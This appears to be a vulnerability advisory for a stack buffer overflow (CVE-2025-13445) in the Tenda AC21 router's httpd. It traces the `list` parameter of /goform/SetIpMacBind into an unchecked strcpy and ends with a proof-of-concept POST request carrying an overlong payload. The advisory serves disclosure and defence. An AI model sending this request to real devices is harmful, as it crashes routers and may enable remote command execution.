





------
### **CVE-2025-13445**

**Affected Product**: Tenda AC21 Router

**Affected Firmware Versions**:  V16.03.08.16

**Vulnerability Type**: Buffer Overflow Vulnerability

**Organization**: School of Cybersecurity, Northwestern Polytechnical University

**Author**: 邱佳慧 毛伯敏 郭鸿志

------
### **Vulnerability Description**

In the latest firmware version V16.03.08.16 for the Tenda AC21 router, the `list` parameter of `/goform/SetIpMacBind` in the `/bin/httpd` binary contains a stack-based buffer overflow vulnerability that can lead to denial‑of‑service and potentially remote command execution.


---
### **Vulnerability Details**

In the httpd binary, the function corresponding to **`/goform/SetIpMacBind`** is **`fromSetIpMacBind`**.


In the `fromSetIpMacBind` function, the `webGetVar` function is used to retrieve the `list` parameter from `a1` and assign it to `Var`. `Var` is then stored in `v29`, and `v29` is passed as an argument to the `sub_48E668` function.


In the `sub_48E668` function, there are multiple stack-based buffer overflow points. Specifically, the `strcpy` function performs no boundary checks, so if the `list` parameter exceeds 128 bytes in length, it can lead to a stack buffer overflow vulnerability.



---
### **PoC**
```
POST /goform/SetIpMacBind HTTP/1.1
Host: 192.168.254.139
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 158
Origin: http://192.168.254.139
Connection: keep-alive
Priority: u=0

list=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&bindnum=2
```

By sending this poc, an attacker can achieve the effect of a denial-of-service(DOS) attack .


